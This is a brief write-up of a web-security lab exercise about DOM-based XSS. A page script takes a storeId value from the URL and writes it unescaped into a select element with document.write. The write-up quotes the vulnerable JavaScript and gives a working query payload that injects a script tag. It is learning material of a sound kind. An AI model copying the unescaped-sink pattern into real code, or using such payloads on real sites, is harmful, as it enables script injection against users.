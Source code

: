 # XSS Lab 3: DOM XSS inside select element Sink

## Analysis
The product page shows that the script gets a value called `storeId` from the `location.search` and then uses it uses it in `document.write` to show the stock. 

Adding a `storeId` with a random string to the URL query will show the string in the dropdown menu. 

Javascript:
```
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
```

XSS Query:
```
product?productId=2&storeId="><script>alert(0)</script>
```